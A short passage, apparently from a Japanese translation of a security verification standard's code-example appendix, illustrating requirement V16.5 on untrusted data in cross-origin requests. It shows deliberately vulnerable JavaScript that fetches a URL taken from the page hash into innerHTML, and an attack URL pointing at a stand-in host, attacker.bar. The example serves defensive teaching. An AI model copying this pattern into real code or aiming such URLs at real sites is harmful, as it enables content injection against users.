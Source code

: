 # 付録 C: コード例

この付録では必要に応じてコード例を示します。

# V16: ファイルおよびリソース検証要件
| **16.5** | 信頼できないデータはクロスドメインリソース共有 (CORS) 内で使用されておらず、任意のリモートコンテンツから保護していることを検証します。 | ✓ | ✓ | ✓ | 2.0 |

```
<script>

var req = new XMLHttpRequest();

req.onreadystatechange = function() {
     if(req.readyState==4 && req.status==200) {
          document.getElementById("div1").innerHTML=req.responseText;
     }
}

var resource = location.hash.substring(1);
req.open("GET",resource,true);
req.send();
</script>
```
```
<body>
<div id="div1"></div>
</body>
```
http://example.foo/main.php#profile.php

攻撃者は以下のような URL を使用して上記のケースを悪用できます。

http://example.foo/main.php#http://attacker.bar/file.php
